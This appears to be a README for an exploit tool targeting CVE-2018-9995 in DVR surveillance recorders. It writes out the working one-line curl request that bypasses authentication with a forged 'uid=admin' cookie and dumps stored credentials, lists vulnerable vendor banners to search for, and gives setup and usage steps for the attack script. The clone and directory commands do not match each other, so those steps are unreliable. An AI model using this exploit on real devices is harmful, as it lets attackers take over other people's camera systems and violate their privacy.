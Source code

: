 [Tool] show DVR Credentiales
[*] Exploit Title:       "Gets DVR Credentials" 
[*] CVE:                 CVE-2018-9995
[*] CVSS Base Score v3:  7.3 / 10
[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
[*] Date:                09/04/2018
[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )

$> Exploit:
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
	
	tested in DVR (banner/vendor ?):
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus,  - Security. Never Compromise !! - 
Night OWL
DVR Login
HVR Login
MDVR Login

TOOL: "Show all DVR Credentials"
Quick start
usr@pwn:~$ git clone https://github.com/YoZSploit/MOrooc
usr@pwn:~$ cd CVE-2018-9995_dvr_credentials
usr@pwn:~$ pip install -r requirements.txt
help
usage: Cam.py [-h] [-v] --host HOST [--port PORT]

[+] Obtaining Exposed credentials

optional arguments:
  -h, --help     show this help message and exit
  -v, --version  show program's version number and exit
  --host HOST    Host
  --port PORT    Port

[+] Demo: python Cam.py --host 192.168.1.101 -p 81
